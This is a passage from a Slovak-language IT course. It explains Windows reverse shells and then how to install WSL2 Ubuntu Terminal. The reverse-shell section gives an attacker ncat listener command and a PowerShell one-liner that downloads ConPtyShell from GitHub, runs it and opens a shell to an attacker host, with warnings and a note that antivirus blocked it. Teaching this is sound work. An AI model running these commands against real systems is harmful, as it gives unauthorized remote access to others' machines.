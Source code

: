 >[!info] 
>HACKER:  Tento prístup je však limitovaný a umožňuje iba jednoduché príkazy v shell


### D.2 REVERZNÝ SHELL NA WINDOWS

Väčšina sietí ma striktne nastavenú politiku čo može do siete sby sme ju ochránili od vonkajších hrozieb. Najväčšia bezpečnostná hrozba je však vo vnútri siete, nepreškolený alebo hlúpy užívateľ prípadne priveľmi sebavedomý SYSADMIN.

Pri REVERSE SHELL nás kontaktuje PC z chránenej LAN a ponúka nám prístup k svojmu príkazovému riadku. Stačí len nastaviť kde nás má kontaktovať a vždy keď sa ozve tak nás nakontaktuje sám. Prejde cez Firewall ako legitímna komunikácia z vnútra siete.

LISTENER NA STRANE ÚTOČNÍKA
``` bash
ncat -lvnp 6868 -s IP HOST
```


REVERSE SHELL POMOCOU SKRIPTU V POWERSHELL:

>[!warning  ]
>### NEPRIATEĽ POČÚVA  !!! Tento skript je NEBEZPEČNÝ A BOL STIAHNUTÝ Z GITHUBU !!! 

[antonioCoco · GitHub] (https://github.com/antonioCoco) a je voľne šírený pod MIT licenciou.
Autor je Analytik Malware a reverzný inžinier pre Windows.

``` powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell IP HOST  6868
```

>[!info] 
>SYSADMIN:  V našom prípade všetko dopadlo dobre, škodlivý kód zachytil ANTIVIR a zabránil mu v poskytnutí údajov cieľovému serveru. Štandardne je tiež v ExecutionPolicy Windows, že nemá spúšťať žiadne ps1 skripty.





## E: WSL2 UBUNTU Terminal - LINUX NA DOSAH RUKY

V tejto fáze kurzu už by ste mali vedieť čosi o VM a kontajneroch. Windows postupne vychádza v ústrety ľuďom, ktorí spravujú a pracujú s Linuxovými serverami a otravuje ich CommandPrompt alebo Powershell. Linux bash je JEDNODUCHO SUPER.

S Microsoft STORE si môžete nainštalovať do svojeho systému WSL2 čo je v podstate hypervisor, ktorý Vám umožní nainštalovať si do WIN10 a vyššie oficálne Microsoftom podporovaný Linux rôznych farieb a príchutí. Áno aj KALI LINUX.

Je aj ľahšia forma a to UBUNTU Terminal, ktorý Vám cez štandardný Windows Terminal dovolí otvárať UBUNTU Shell. POZOR MÁ INÚ IP ADRESU AKO WINDOWS.



WSL2 Install Ubuntu Terminal
https://www.microsoft.com/store/productId/9P7BDVKVNXZ6
